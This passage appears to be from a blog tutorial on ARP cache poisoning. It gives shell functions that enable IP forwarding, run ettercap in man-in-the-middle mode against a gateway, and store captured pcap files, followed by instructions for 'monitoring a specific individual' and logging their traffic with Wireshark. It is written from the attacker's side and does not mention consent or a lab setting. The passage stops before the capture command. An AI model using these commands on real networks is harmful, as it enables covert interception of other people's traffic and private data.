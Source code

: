 {% highlight ruby %}
function poison_all ()
{
sudo sysctl -w net.ipv4.ip_forward=1;
sudo ettercap -T -M arp:remote /$gatewayIP// //;
sudo sysctl -w net.ipv4.ip_forward=0;
}
#Same as above, but an unspecified target means, "collect all traffic going to and from the first targeted device"
{% endhighlight %}

{% highlight ruby %}
function ip_forward_off() { sudo sysctl -w net.ipv4.ip_forward=0; }
#Same as above, but =0 turns IP forwarding off. Use this command when you are done with your operation.
{% endhighlight %}

The next function can not simply be be added with a copy paste. You will need to look at the second command and change myuser:myuser to whatever your active username is.

{% highlight ruby %}
function mv_pcap () 
{ 
sudo chmod 600 /tmp/*.pcap;
sudo chown myuser:myuser /tmp/*.pcap;
sudo mv /tmp/*.pcap ~;
}
#modifies the permissions for saved packet captures then moves them to the home folder
{% endhighlight %}

Save the file with Ctrl+O and confirm the changes. Press Ctrl+X to exit nano. You will need to close and reopen the terminal in order for the changes to take effect.

<b>Monitoring A Specific Individual</b>

Open a new terminal window and run the following commands

{% highlight ruby %}
poison
{% endhighlight %}

You should a bunch of random data flying through. This means it is working. In the future, these will be the only two commands you will need to run in order to poison an ARP cache. If you ever need to change the IP addresses, then you simply need to modify the .bashrc variables at the beginning. While all that is running, open a new terminal tab with Ctrl+Alt+T.

<b>Capturing Traffic With Wireshark</b>

With the net terminal tab open, we are going to capture the traffic and store it for later viewing. Wireshark is a wonderful tool for this. Wireshark is normally used as a graphical application, but one can only collect so much traffic with the graphical tool before running out of RAM. The target might be doing something you as the attacker would consider interesting. He might simultaneously be watching Youtube, uploading files to the cloud or even listening to a podcast. This amount of data that will have passed to and from his device will add up to something tremendous. You will want to limit the file size. Much like RAM, hard drive space is also a limited resource. You can save a file with a maximum file size limit. Once that limit is reached, then a new file is created. You can specify the maximum number of files you want to create. Once the limit has been reached, Wireshark will start deleting older files in order to make room for newer ones. For security reasons, we want to save these files to the /tmp/ directory, then copy them to our home directory when we are done. Now run the following.
